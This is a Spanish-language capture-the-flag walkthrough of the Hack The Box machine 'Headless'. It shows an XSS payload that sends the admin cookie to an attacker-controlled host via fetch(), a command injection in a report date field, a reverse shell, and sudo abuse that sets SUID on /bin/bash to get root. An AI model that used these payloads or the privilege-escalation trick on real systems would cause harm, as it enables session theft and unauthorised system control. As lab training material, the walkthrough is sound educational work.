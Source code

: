 <h1>
    Introducción
</h1>

En esta ocasión estaremos realizando la máquina Headless de Hack The Box, estaremos tocando temas como pruebas de penetración en páginas web, Cross Site Scripting (XSS), Cookie Hijacking y escalada de privilegios. 


<h1>
    Fase de reconocimiento
</h1>

Para esta primera parte haremos los pasos de siempre:
1. Revisar si podemos hacer ping a la máquina víctima.
2. Hacer un escaneo de puertos.
3. Buscar versiones y servicios activos.

<h3>
    Haciendo ping a la máquina víctima
</h3>

![imagen](https://hackmd.io/_uploads/SJ9Uj21XA.png)

Tenemos conexión y estamos ante una máquina Linux (por el ttl con proximidad a 64)

<h3>
    Escaneando puertos con sus versiones y servicios
</h3>

Encontramos los siguientes puertos abiertos y podemos quedarnos con la siguiente información más importante:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?   syn-ack ttl 63
```

Ahora revisamos el puerto 5000:
![imagen](https://hackmd.io/_uploads/SJx9ahyQR.png)

<h2>
    Explorando la web
</h2>

Al entrar a la web vemos lo siguiente:


![imagen](https://hackmd.io/_uploads/r1OT6hkQA.png)

Ahora trataremos de hallar ficheros y directorios ocultos en la página (fuzzing) con el siguiente comando:

`gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .html,.php,.txt`
![imagen](https://hackmd.io/_uploads/H14ZtmB70.png)


Entramos al directorio `dashboard`:
![imagen](https://hackmd.io/_uploads/ByaaP7HmA.png)
No tenemos permiso para entrar a la página, pero encontramos algo curioso en las cookies:

![imagen](https://hackmd.io/_uploads/S1f4dQrQR.png)

La página valida la cookie de sesión, por tanto, necesitamos tener una cookie de administrador para poder acceder a la página.
Por ahora continuamos con la recopilación de información.

<h1>
    Explotación de XSS y Cookie Hijacking
</h1>

De igual forma hallamos el directorio`support`, al entrar nos encontramos con lo siguiente:
![imagen](https://hackmd.io/_uploads/By-ifQB7C.png)

Aquí podemos intentar responder con cualquier dato para ver la respuesta, pero antes de enviar la solicitud, la interceptaremos con BurpSuite:

Seleccionamos nuestra extensión de `FoxyProxy` previamente configurada:
![imagen](https://hackmd.io/_uploads/HJiOQmSX0.png)

Encendemos la intercepeción en BurpSuite:
![imagen](https://hackmd.io/_uploads/Bk8h77BXR.png)

Y finalmente enviamos la solicitud desde la página web con el botón `submit` en la página web.

Obtenemos una respuesta en BurpSuite, misma que enviaremos a la sección`Repeater` (con las teclas Ctrl + R):
![imagen](https://hackmd.io/_uploads/r1C-47r7C.png)

Desde el Repeater, enviamos la solicitud con el botón `Send` y en la respuesta (panel derecho), seleccionamos `Render`
![imagen](https://hackmd.io/_uploads/SkFKNmHm0.png)

Probamos con un intento de Cross Site Site Scripting (XSS) básico, escribiendo `<script>alert("XSS");</script>` en la sección "message": 
![imagen](https://hackmd.io/_uploads/rJkYHQBQC.png)

Y obtenemos:
![imagen](https://hackmd.io/_uploads/rJGmUXHQC.png)
La página detecta cuando intentamos inyectar código malicioso, por tanto intentaremos modificar el código malicioso a inyectar:


Usamos el siguiente código en la sección `message` y el `user agent` desde BurpSuite:
```
<img src=x onerror=fetch('http://10.10.14.158:80/'+document.cookie);>
```
Solo hace falta cambiar la IP por la del lector.

Antes de enviar la solicitud, montamos un servidor web con python por el puerto 80 donde recibiremos la solicitud:

```
python -m http.server 80
```
![imagen](https://hackmd.io/_uploads/rkfqroTXA.png)



Enviamos la solicitud con el user agent y message modificados:
![imagen](https://hackmd.io/_uploads/rkV2No67A.png)


Obtenemos la cookie de administrador:
![imagen](https://hackmd.io/_uploads/BySuEsTXA.png)


Regresamos a la página dashboard e inspeccionamos la página para modificar las cookies que obtuvimos:

![imagen](https://hackmd.io/_uploads/SJa8UiTQ0.png)
![imagen](https://hackmd.io/_uploads/H1YaDsp7A.png)

Cambiamos la cookies que vienen por defecto:
![imagen](https://hackmd.io/_uploads/S1uxdsTm0.png)

Recargamos la página:

![imagen](https://hackmd.io/_uploads/HyUzOja70.png)
¡Entramos a la página!

Volvemos a activar el FoxyProxy y BurpSuite y enviamos un reporte con el botón `Generate Report`:

![imagen](https://hackmd.io/_uploads/Hkf1Fi6XA.png)

Ya que la máquina es Linux y vemos una función de generar reporte, podemos probar con otros comandos desde el Repeater de BurpSuite:

`date=2023-09-15; ls -la`

![imagen](https://hackmd.io/_uploads/BkcpYi67R.png)

Ahora probamos a enviarnos una Reverse Shell:

Vamos a seguir los pasos que tenemos en el repositorio del Club:

https://github.com/Greco140/Club-de-Ciberseguridad-UADY-FMAT/blob/main/CTFs/Ayuda/Shell%20reverse/Shell%20reverse%20con%20python.md

Luego enviamos la Reverse Shell desde la página web:

![imagen](https://hackmd.io/_uploads/H1Wb6jTQA.png)

![imagen](https://hackmd.io/_uploads/BJJ4Tia7C.png)
¡Estamos dentro!


Si retrocedemos un directorio estamos en el directorio `/home/dvir` y encontramos el fichero `user.txt` que contiene la flag del usuario:

![imagen](https://hackmd.io/_uploads/ryy7CjT7A.png)


<h1>
     Escalada de privilegios
</h1>

Primeramente intentamos usar el comando `sudo -l` y leemos el fichero `syscheck`:

![imagen](https://hackmd.io/_uploads/BkRKAop7R.png)

Leyendo el código vemos que inicia el fichero `initdb.sh` que se encuentra en `/home/dvir/app`:

![imagen](https://hackmd.io/_uploads/ryOUJ3amR.png)

Incluiremos el comando `chmod u+s /bin/bash` dentro de `initdb.sh` de la siguiente forma:
`echo "chmod u+s /bin/bash" > initdb.sh`

Luego ejecutamos el fichero `syscheck` con: 
`sudo /usr/bin/syscheck` 
se ejecuta con permisos de superusuario, lo cual es crucial porque necesitamos que initdb.sh se ejecute con permisos elevados para que el comando chmod u+s /bin/bash sea efectivo.

Luego
`bash -p` inicia una nueva instancia de bash preservando los privilegios del propietario del ejecutable, en este caso, root.

Finalmente:
`whoami`
`cat root/root.txt`

![imagen](https://hackmd.io/_uploads/BJwtlhaQR.png)

El funcionamiento detrás de esto es que al podemos ejecutar el fichero `/usr/bin/syscheck` como superusuario (sudo), además podemos agregar líneas de código.
Ya que dentro del fichero `/usr/bin/syscheck` se ejecuta el fichero `initdb.sh`, se desencadena el contenido de `initdb.sh`, es decir una bash que conserva los privilegios de sudo, esto por medio de los permisos SUID de una bash que agregamos previamente a `initdb.sh`
Una vez ejecutado el fichero `/usr/bin/syscheck` podemos ejecutar la bash con 
`bash -p` y somos usuario root.

Espero te haya gustado y aprendido algo nuevo con esta máquina :D.


